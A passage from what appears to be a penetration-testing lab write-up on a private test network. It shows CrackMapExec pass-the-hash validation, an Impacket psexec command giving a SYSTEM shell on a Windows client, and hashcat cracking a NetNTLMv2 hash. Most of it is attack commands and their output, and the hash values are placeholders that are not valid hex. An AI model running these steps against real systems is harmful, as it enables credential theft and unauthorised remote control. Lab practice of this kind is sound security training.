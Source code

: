 The relay was successful, and ntlmrelayx extracted local user accounts and SAM hashes from Client 2.

#### **4.5 Using Captured Credentials**

**Testing Credentials**:
Used CrackMapExec to verify the captured credentials against Client 2:

```bash
sudo crackmapexec smb 192.168.56.105 -u elvisp -H 1A2B3C4D5E6F7G8H9I0J
```
- Output:
  ```
  SMB         192.168.56.105  445  PC02  [*] Windows 10 Enterprise 19041 x64 (name:PC02) (domain:MYROOT) (signing:False) (SMBv1:True)
  SMB         192.168.56.105  445  PC02  [+] MYROOT\elvisp 1A2B3C4D5E6F7G8H9I0J (Pwn3d!)
  ```

**Gaining Shell Access**:
Used Impacket’s psexec to gain a command shell on Client 2:

```bash
sudo impacket-psexec MYROOT/elvisp@192.168.56.105 -hashes :1A2B3C4D5E6F7G8H9I0J
```
- Output:
  ```
  [*] Requesting shares on 192.168.56.105...
  [*] Found writable share ADMIN$
  [*] Uploading file NRMACeDP.exe
  [*] Opening SVCManager on 192.168.56.105...
  [*] Creating service lfkD on 192.168.56.105...
  [*] Starting service lfkD...
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.19041.1415]
  C:\Windows\system32>whoami
  nt authority\system
  ```

This confirmed SYSTEM-level access to Client 2.

#### **4.6 Cracking the NTLM Hash**

Saved the captured hash to a file for cracking:

```bash
echo "elvisp::MYROOT:5e4ab35219f425dd:1A2B3C4D5E6F7G8H9I0J:0101000000000000C0653150DE09D201..." > hash.txt
```

Used hashcat to attempt password recovery:

```bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```
- Parameters:
  - `-m 5600`: Specifies NetNTLMv2 hash type.
  - `--force`: Overrides safety checks for GPU usage.

